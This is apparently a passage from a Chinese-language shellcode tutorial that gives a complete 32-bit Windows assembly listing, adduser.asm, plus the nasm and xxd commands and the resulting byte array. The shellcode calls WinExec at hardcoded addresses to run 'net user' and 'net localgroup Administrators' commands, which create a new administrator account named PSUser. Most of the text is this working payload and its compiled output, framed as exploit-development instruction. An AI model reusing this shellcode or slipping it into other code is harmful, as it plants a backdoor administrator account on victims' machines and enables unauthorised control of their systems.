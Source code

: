 汇编代码

下面的adduser.asm代码是从http://www.vividmachines.com/shellcode/shellcode.html中摘取出来的,带有略微的修改和注释

在你的本地系统上Cygwin的shellcode目录中使用如下代码创建adduser.asm

在shellcode开发之后,记得用你已经使用上面的arwin枚举出来的地址替换掉”WinExec”和”ExitProcess”的函数地址

```
+----------------- Start adduser.asm -----------------+
;adduser.asm
[Section .text]
BITS 32
global _start
_start:
jmp short GetCommand ;jump to the location of the command string
CommandReturn: ;Define a label to call so that string address is pushed onto stack
pop ebx ;ebx now points to the string   ebx
    xor eax,eax ;empties out eax 
    push eax ;push null onto stack as empty parameter value 
    push ebx ;push the command string onto the stack
    mov ebx,0x7c8615b5 ;place address of WinExec into ebx
    call ebx ;call WinExec(path,showcode) 
xor eax,eax ;zero the register again to clear WinExec return value (return values are often returned into eax)
    push eax ;push null onto stack as empty parameter value
    mov ebx, 0x7c81ca82 ;place address of ExitProcess into ebx 
    call ebx ;call ExitProcess(0);
GetCommand: ;Define label for location of command string
    call CommandReturn ;call the return label so the return address (location of string) is pushed onto stack
    db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser";Write the raw bytes into the shellcode that represent our string.
    db 0x00 ;Terminate our string with a null character.
+----------------- End adduser.asm -----------------+

```

编译汇编代码

因此我们现在已经有我们用汇编写好的shellcode了，我们需要编译它.这可以使用nasm汇编编译器来完成,在有adduser.asm（是你的汇编源代码文件）的目录下使用如下命令,adduser.bin是已经编译好的二进制输出文件

> nasm -f bin -o adduser.bin adduser.asm

获取shellcode

现在我们有了一个编译好的二进制文件,可以使用xxd工具来为我们生成shellcode文件.这可以使用以下的xxd命令来完成,同时将会生成以下输出:

> xxd -i adduser.bin     unsigned char adduser_bin[] = {      0xeb, 0x16, 0x5b, 0x31, 0xc0, 0x50, 0x53, 0xbb, 0xb5, 0x15, 0x86, 0x7c,      0xff, 0xd3, 0x31, 0xc0, 0x50, 0xbb, 0x82, 0xca, 0x81, 0x7c, 0xff, 0xd3,      0xe8, 0xe5, 0xff, 0xff, 0xff, 0x63, 0x6d, 0x64, 0x2e, 0x65, 0x78, 0x65,      0x20, 0x2f, 0x63, 0x20, 0x6e, 0x65, 0x74, 0x20, 0x75, 0x73, 0x65, 0x72,      0x20, 0x50, 0x53, 0x55, 0x73, 0x65, 0x72, 0x20, 0x50, 0x53, 0x50, 0x61,      0x73, 0x73, 0x77, 0x64, 0x20, 0x2f, 0x41, 0x44, 0x44, 0x20, 0x26, 0x26,      0x20, 0x6e, 0x65, 0x74, 0x20, 0x6c, 0x6f, 0x63, 0x61, 0x6c, 0x67, 0x72,      0x6f, 0x75, 0x70, 0x20, 0x41, 0x64, 0x6d, 0x69, 0x6e, 0x69, 0x73, 0x74,      0x72, 0x61, 0x74, 0x6f, 0x72, 0x73, 0x20, 0x2f, 0x41, 0x44, 0x44, 0x20,      0x50, 0x53, 0x55, 0x73, 0x65, 0x72, 0x00     };     unsigned int adduser_bin_len = 115;
